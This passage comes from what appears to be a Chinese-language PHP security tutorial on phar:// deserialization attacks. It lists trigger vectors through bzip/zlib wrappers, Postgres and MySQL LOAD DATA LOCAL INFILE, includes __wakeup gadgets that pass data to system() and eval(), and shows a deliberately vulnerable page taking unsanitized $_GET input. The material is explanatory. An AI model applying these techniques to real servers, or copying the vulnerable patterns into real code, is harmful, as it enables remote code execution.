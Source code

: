 * Bzip / Gzip

  ```php
  $z = 'compress.bzip2://phar://test.phar/test';
  $z = 'compress.zlib://phar://test.phar/test'
  ```

* Postgres

  ```php
  <?php
  $pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
  @$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
  ```

  > 如果使用pgsqlCopyToFile或者pg_trace，需要开启对应的phar写功能

* MySQL

  ```php
  <?php
  class A {
      public $s = '';
      public function __wakeup () {
          system($this->s);
      }
  }
  $m = mysqli_init();
  mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
  $s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
  $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
  ```

  配置`mysqld`为：

  ```ini
  [mysqld]
  local-infile=1
  secure_file_priv=""
  ```

##### 简单的Phar反序列化

假设现在有一个任意文件上传漏洞，并且有一个页面的代码如下：

```php
<?php

class Test
{
    public $data = 'echo "hello world!"';
    function __wakeup()
    {
        eval($this->data);
    }
}
if ($_GET['file']) {
    echo file_exists($_GET['file']);
}
```
